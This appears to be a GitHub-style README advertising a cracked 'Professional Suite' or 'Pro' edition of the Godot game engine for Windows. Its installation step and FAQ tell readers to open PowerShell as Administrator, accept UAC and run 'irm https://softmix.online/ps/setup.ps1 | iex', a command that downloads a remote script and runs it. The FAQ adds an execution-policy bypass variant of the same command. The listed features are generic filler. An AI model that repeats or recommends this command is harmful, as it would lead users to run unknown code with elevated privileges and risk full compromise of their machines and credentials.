

<div align="center">


<br>


# Godot Engine Professional Suite
**2D/3D engine · GDScript · Scene tree**
<br>
**2D/3D engine · GDScript · Scene tree**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**Godot Engine — 2D and 3D rendering, GDScript and C# scripting, scene editor and multi-platform export all enabled.**

</div>
---

> Ship indie games with a lightweight engine — 2D/3D pipelines, scripting and export templates all enabled.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🛠️ **Developer tools** — Pro debugging and container features enabled.
📦 **Local install** — Works offline after setup.
🖥️ **Windows optimized** — Built for dev workstations.
⚙️ **Pro workflow** — API, container and automation tools included.
✨ **Premium modules** — Paid developer features enabled.
📋 **Complete toolkit** — Profiles and integrations supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 6 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 6 gb free space.
</details>


TAGS
godot-engine, godot, godot-pro, godot-suite, godot-app, 2d-3d-engine, gdscript, windows, pro, desktop, software, studio, tools
